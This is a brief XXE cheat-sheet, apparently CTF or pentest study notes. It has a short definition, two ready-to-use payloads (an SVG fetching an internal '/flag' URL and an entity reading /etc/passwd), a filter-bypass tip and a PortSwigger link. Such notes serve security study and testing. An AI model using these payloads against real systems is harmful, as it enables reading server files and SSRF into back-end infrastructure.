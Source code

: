 # XXE (XML eXternal Entity)
> XML external entity injection (also known as XXE) is a web security vulnerability that allows an attacker to interfere with an application's processing of XML data. It often allows an attacker to view files on the application server filesystem, and to interact with any back-end or external systems that the application itself can access.

> In some situations, an attacker can escalate an XXE attack to compromise the underlying server or other back-end infrastructure, by leveraging the XXE vulnerability to perform server-side request forgery (SSRF) attacks.

## Example Payloads
```xml
<?xml version="1.0"?>
<!DOCTYPE test[
    <!ENTITY xxe SYSTEM "http://goober-internal:5001/flag">
]>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="150" height="150">
<text x="15" y="20" font-size="4px">&xxe;</text>
</svg>
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Obviously you must be able to adapt lah...

Eg. Blacklist bypasses are similar to SQLi: `!DOC!DOCTYPETYPE`

## Resources
- [Portswigger](https://portswigger.net/web-security/xxe)